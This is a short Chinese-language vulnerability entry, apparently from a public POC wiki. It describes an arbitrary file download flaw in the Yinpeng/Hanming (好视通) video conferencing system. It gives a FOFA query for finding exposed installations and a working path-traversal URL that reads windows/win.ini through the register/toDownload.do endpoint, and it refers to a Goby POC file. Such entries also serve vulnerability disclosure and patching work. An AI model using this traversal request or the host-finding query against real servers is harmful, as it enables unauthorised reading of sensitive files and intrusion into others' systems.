



# 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下


漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Yinpeng_Hanming_Video_Conferencing__Arbitrary_file_read.json



